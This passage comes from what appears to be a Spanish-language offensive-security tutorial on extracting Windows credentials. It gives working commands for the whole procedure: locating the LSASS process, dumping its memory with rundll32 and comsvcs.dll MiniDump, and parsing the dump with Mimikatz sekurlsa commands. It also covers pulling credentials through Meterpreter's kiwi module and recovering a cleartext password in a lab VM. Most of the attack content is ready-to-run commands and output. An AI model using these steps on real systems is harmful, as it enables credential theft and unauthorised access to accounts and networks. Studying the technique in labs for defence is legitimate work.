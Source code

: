 Si prefieres no interactuar directamente:

##### 📤 Crear volcado de memoria:

Desde CMD con permisos:

```cmd
tasklist | findstr lsass
```

Anota el **PID** del proceso LSASS.

```cmd
rundll32 comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

> Esto crea un archivo `lsass.dmp` en `C:\`.

##### 📥 Analizar el volcado con Mimikatz:

```mimikatz
sekurlsa::minidump C:\lsass.dmp
sekurlsa::logonpasswords
```

✅ Esto extrae los datos del volcado, **sin necesidad de acceso en vivo** a la memoria.

---

#### ✅ 3. **Desde Meterpreter (opcional)**

Si ya tienes una sesión `meterpreter`:

```bash
load kiwi
creds_all
```

> Muestra todas las credenciales activas, sin ejecutar Mimikatz directamente.

---

### 🧪 Ejemplo Real en VM

1. VM Windows: inicia sesión como un usuario (por ejemplo, `admin123` con clave `Contraseña123`).
2. Desde esa VM, ejecuta `mimikatz.exe`.
3. Ejecuta:

```mimikatz
privilege::debug
sekurlsa::logonpasswords
```

🔐 Verás:

```
Username: admin123
Password: Contraseña123
```

---
